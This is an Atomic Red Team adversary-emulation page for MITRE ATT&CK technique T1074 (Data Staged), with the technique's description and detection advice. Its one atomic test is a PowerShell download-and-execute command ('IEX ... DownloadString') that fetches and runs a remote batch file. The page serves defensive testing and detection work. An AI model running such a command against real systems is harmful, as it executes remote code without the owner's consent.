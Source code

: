 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat')" > c:\windows\pi.log
```
<br/>
